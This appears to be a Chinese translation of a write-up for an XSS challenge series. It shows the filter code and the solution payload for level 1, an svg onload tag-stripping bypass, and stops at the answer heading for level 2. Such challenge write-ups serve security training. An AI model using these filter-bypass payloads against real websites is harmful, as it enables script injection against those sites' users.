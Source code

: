 * * *

该级别实际是简单的过滤了`>`，需要绕过以下即可。

### 代码

```
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}

```

### 答案

```
<svg/onload=prompt(1) 

```

注:译者使用 js 改版[`sectest.sinaapp.com/xss/level1.php`](http://sectest.sinaapp.com/xss/level1.php#%3Csvg/onload=prompt%281%29//),测试答案为

```
<svg/onload=prompt(1)//

```

## Level 2

* * *

该级别过滤了`=`、`(`两种符号。

### 代码

```
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}

```

### 答案

Firefox 和 IE 下的答案(29 个字符)
